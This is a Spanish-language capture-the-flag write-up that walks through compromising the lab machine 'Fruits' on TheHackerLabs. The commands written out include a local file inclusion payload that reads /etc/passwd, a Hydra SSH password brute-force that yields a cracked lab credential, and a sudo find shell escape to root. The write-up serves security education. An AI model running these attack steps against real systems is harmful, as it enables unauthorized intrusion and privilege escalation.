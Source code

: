 # WriteUp: Fruits | TheHackerLabs

En el presente artículo, detallo el proceso técnico que seguí para comprometer un sistema, desde la fase inicial de reconocimiento hasta la obtención de privilegios de superusuario (`root`). El objetivo es ofrecer una perspectiva educativa sobre la metodología empleada, las herramientas utilizadas y el razonamiento detrás de cada decisión.

### <mark style="color:yellow;">Fase 1: Reconocimiento y Enumeración Inicial</mark>

Mi primer paso es construir un mapa de la superficie de ataque. Para ello, mi herramienta de elección es **Nmap** (Network Mapper), un potente escáner de puertos y servicios de código abierto.

Inicié con un escaneo rápido para identificar todos los puertos TCP abiertos en el objetivo, `192.168.56.35`.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.35
```

Mi objetivo con este comando era obtener una respuesta lo más rápido posible. A continuación, desgloso los parámetros utilizados:

* **`-n`**: Deshabilita la resolución de DNS, lo que acelera el escaneo al no intentar resolver el nombre de host de la IP.
* **`-Pn`**: Omite la fase de descubrimiento de host (ping scan). Traté al objetivo como si estuviera en línea, lo cual es útil si el host bloquea las solicitudes ICMP.
* **`-sS`**: Realiza un escaneo TCP SYN (o "stealth scan"), una técnica eficiente que no completa la conexión TCP, haciéndola más discreta y rápida.
* **`-p-`**: Indica a Nmap que escanee la totalidad de los 65,535 puertos TCP.
* **`--min-rate 5000`**: Establece una tasa mínima de 5000 paquetes por segundo para maximizar la velocidad del escaneo.

Los resultados de este primer barrido fueron concisos:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Identifiqué dos puntos de entrada potenciales: el puerto **22**, correspondiente al servicio SSH (Secure Shell), y el puerto **80**, del servicio HTTP, lo que indica la presencia de un servidor web.

Con los puertos clave identificados, procedí a realizar un escaneo más profundo y específico sobre ellos para enumerar las versiones de los servicios y ejecutar scripts de reconocimiento básicos.

```bash
nmap -sVC -p22,80 192.168.56.35
```

* **`-sV`**: Sonda los puertos abiertos para determinar la información de la versión del servicio.
* **`-sC`**: Ejecuta un conjunto de scripts de Nmap por defecto (`-sC` es equivalente a `--script=default`) para obtener información adicional.
* **`-p22,80`**: Limita el escaneo únicamente a los puertos que ya había confirmado como abiertos.

Este segundo análisis me proporcionó información mucho más detallada:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ae:dd:1a:b6:db:a7:c7:8c:f3:03:b8:05:da:e0:51:68 (ECDSA)
|_  256 68:16:a7:3a:63:0c:8b:f6:ba:a1:ff:c0:34:e8:bf:80 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: P\xC3\xA1gina de Frutas
```

Los resultados confirmaron la presencia de un servidor **OpenSSH 9.2p1** y un servidor web **Apache 2.4.57** en Debian. El título de la página, "Página de Frutas", me indicó que mi siguiente paso lógico era investigar la aplicación web alojada en el puerto 80.

### <mark style="color:yellow;">Fase 2: Análisis de la Aplicación Web y Descubrimiento de Vulnerabilidades</mark>

Al navegar a `http://192.168.56.35`, me encontré con una interfaz simple.

<figure><img src="../../.gitbook/assets/2025-10-11_11-49.png" alt=""><figcaption></figcaption></figure>

La página presentaba un campo de entrada. Como prueba inicial, introduje un comando básico de Linux, `ls`, para verificar si existía una vulnerabilidad de Ejecución Remota de Comandos (RCE).

<figure><img src="../../.gitbook/assets/2025-10-11_12-49.png" alt=""><figcaption></figcaption></figure>

Observé que el comando no se ejecutó. En cambio, la cadena `ls` se reflejó en la URL como un parámetro. Este comportamiento descartó una RCE directa, pero me llevó a formular una nueva hipótesis: la aplicación podría ser vulnerable a **Inclusión Local de Ficheros (LFI)**, donde la entrada del usuario se utiliza para construir una ruta de archivo en el servidor.

Para explorar esta posibilidad, necesité enumerar los directorios y archivos del servidor web. Utilicé **Gobuster**, una herramienta de fuerza bruta de URIs. Mi primer intento se centró en descubrir directorios ocultos.

```bash
gobuster dir -u http://192.168.56.35 -w /usr/share/wordlists/dirb/big.txt
```

Este escaneo no arrojó resultados accesibles; los directorios encontrados devolvieron un código de estado `403 Forbidden`. Por lo tanto, ajusté mi estrategia para buscar archivos con extensiones específicas, como `php`, `html` y `txt`.

```bash
gobuster dir -u http://192.168.56.35 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 20
```

* **`-x php,html,txt`**: Le indiqué a Gobuster que probara cada palabra del diccionario con estas extensiones.
* **`-t 20`**: Aumenté el número de hilos para acelerar el proceso.

Este segundo intento fue exitoso y reveló un archivo de interés:

```bash
/index.html           (Status: 200) [Size: 1811]
/fruits.php           (Status: 200) [Size: 1]
```

El hallazgo de `/fruits.php` con un tamaño de solo **1 byte** fue extremadamente sospechoso. Mi hipótesis se fortaleció: este script probablemente estaba diseñado para incluir contenido basado en un parámetro GET. Si no se le pasaba el parámetro correcto, no incluía nada, resultando en una página casi vacía.

Para confirmar la vulnerabilidad LFI y descubrir el nombre del parámetro, utilicé **Wfuzz**, un fuzzer web muy versátil. Mi objetivo era probar una lista de nombres de parámetros comunes, utilizando `/etc/passwd` como el valor del fichero a incluir, ya que su existencia es una constante en sistemas Linux.

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 404 --hw 0 "http://192.168.56.35/fruits.php?FUZZ=/etc/passwd"
```

* **`-w`**: Especifica la lista de palabras que Wfuzz usará para reemplazar la palabra clave `FUZZ`.
* **`--hc 404`**: Oculta las respuestas con código de estado 404 (Not Found).
* **`--hw 0`**: Oculta las respuestas con 0 palabras, filtrando así la página en blanco por defecto.

Los resultados de Wfuzz fueron concluyentes:

```
=====================================================================
ID          Response   Lines    Word      Chars     Payload
=====================================================================

000001798:   200        24 L     29 W      1128 Ch    "file"
```

El fuzzer identificó el parámetro `file`. Al construir la URL `http://192.168.56.35/fruits.php?file=/etc/passwd`, logré leer el contenido del archivo `/etc/passwd` directamente en el navegador, confirmando la vulnerabilidad de LFI.

```
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
bananaman:x:1001:1001::/home/bananaman:/bin/bash
```

El análisis de este archivo me proporcionó una lista de usuarios del sistema. Noté que el usuario `bananaman` tenía una shell configurada (`/bin/bash`), convirtiéndolo en mi objetivo principal para obtener acceso.

### <mark style="color:yellow;">Fase 3: Obtención de Acceso Inicial</mark>

Con un nombre de usuario válido (`bananaman`) y el servicio SSH abierto, mi siguiente paso fue realizar un ataque de fuerza bruta contra la contraseña del usuario. Para esta tarea, empleé **Hydra**.

```bash
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt 192.168.56.35 ssh -s 22
```

* **`-l bananaman`**: Especifica el nombre de usuario.
* **`-P /usr/share/wordlists/rockyou.txt`**: Proporciona la ruta al diccionario de contraseñas.
* **`ssh`**: Define el protocolo a atacar.

Tras un breve periodo, Hydra tuvo éxito:

```bash
[22][ssh] host: 192.168.56.35   login: bananaman   password: celtic
```

Con la credencial `bananaman:celtic`, procedí a conectarme al servidor a través de SSH y obtuve una shell interactiva, capturando así la primera bandera.

```bash
ssh bananaman@192.168.56.35
...
bananaman@Fruits:~$ id
uid=1001(bananaman) gid=1001(bananaman) groups=1001(bananaman)
bananaman@Fruits:~$ cat user.txt 
482XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### <mark style="color:yellow;">Fase 4: Escalada de Privilegios</mark>

Una vez dentro del sistema como un usuario de bajos privilegios, mi objetivo final era escalar a `root`. El primer comando que ejecuté fue `sudo -l` para verificar mis permisos de `sudo`.

```bash
sudo -l
```

Los resultados revelaron una configuración de `sudo` insegura:

```
User bananaman may run the following commands on Fruits:
    (ALL) NOPASSWD: /usr/bin/find
```

Se me permitía ejecutar el binario `/usr/bin/find` como superusuario (`ALL`) y sin necesidad de introducir una contraseña (`NOPASSWD`).

Consulté **GTFOBins**, una base de datos de binarios de Unix que pueden ser explotados para escalar privilegios. Como esperaba, `find` puede ser utilizado para ejecutar comandos. La técnica recomendada era la siguiente:

```bash
sudo find . -exec /bin/sh \; -quit
```

Lógica detrás de este comando:

* **`sudo find .`**: Ejecuto el comando `find` con privilegios de `root`.
* **`-exec /bin/sh \;`**: El parámetro `-exec` de `find` permite ejecutar un comando. En este caso, le instruí para que ejecutara `/bin/sh`, lo cual inicia una nueva shell. Dado que el proceso padre (`find`) se ejecuta como `root`, la shell hija hereda esos mismos privilegios.
* **`-quit`**: Este argumento detiene la ejecución de `find` inmediatamente después de la primera acción, por lo que no se realiza ninguna búsqueda real.

Ejecuté el comando en la terminal y verifiqué mi identidad:

```bash
sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

Confirmé que había escalado exitosamente a `root`. Finalmente, navegué al directorio `/root` y leí la bandera final, completando así el compromiso del sistema.

```bash
# cd /root
# cat root.txt
212XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
